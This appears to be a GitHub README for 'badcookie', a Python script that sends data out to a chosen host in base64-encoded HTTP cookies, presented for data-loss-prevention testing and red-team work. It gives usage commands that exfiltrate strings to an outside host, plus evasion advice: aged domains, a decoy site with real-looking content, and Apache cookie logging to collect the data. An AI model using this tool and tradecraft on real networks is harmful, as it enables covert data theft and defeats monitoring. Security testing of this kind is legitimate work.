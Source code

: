 # Requirements
Python 2.7

### Libraries
* Requests

# Description
Badcookie exfiltrates data via base64 encoded HTTP cookies.

# Some use cases
* The script can be used for testing the effectiveness of data loss prevention systems.
* Outbound network traffic monitoring systems.
* Red Team / Blue team exercises e.g. see if the blue team can detect data exfiltraion.
* Penetration testing activities

#Things to keep in mind
* The script transmits data via http not https
* Base64 encoded data can be easily decoded
* Be mindful of the cookie size when transmitting data

#Usage
`badcookie.py <destination_host> <exfiltrated_data>`

`Example(1): badcookie.py 10.0.0.2 "very important data"`

`Example(2): badcookie.py www.secretsite.com "very important data"`

Use quotes if you plan to transmit data with whitespace


#Setting up the data exfiltration process

* To make the network traffic look convincing setup a site with a proper domain name. It can be a news, blog or any other site, so when you exfiltrate data the network traffic will look like normal web traffic going to a legitimate site. (atleast this is what we are trying to accomplish).
* Fill the site with real looking content.
* If you are testing systems where there is a web filtering proxy involved, try and use a  domain name which is more than a year old as web filtering proxies block new domains. In either case using an aged domain name will be beneficial.
* Avoid sending data using IP addresses.
* Enable  logging of http cookies in Apache web server ( you can use any server you like). The sample config file  [000-default.conf](https://github.com/akbarq/badcookie/blob/master/apache_conf/000-default.conf) can be used to enable cookie logging. 
* Place the **000-default.conf** file in **/etc/apache2/sites-enabled/** and restart Apache. You should now see a file called **“cookies.log”** in **/var/log/apache2**.
* Execute the badcookie script from the victim machine / network.
* After executing the script you should see the following log entry in cookies.log file. The log file shows the transmitted base64 cookie.

`10.0.0.2 - - [13/Jun/2015:18:48:17 -0500] "GET / HTTP/1.1" 200 3256 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MDDCJS; :11.0) like Gecko" "dGVzdGluZw=="`

* You can now decode the base64 encoded data.

Please note that the above process is just a suggestion, you can setup the exfiltration process anyway you like.


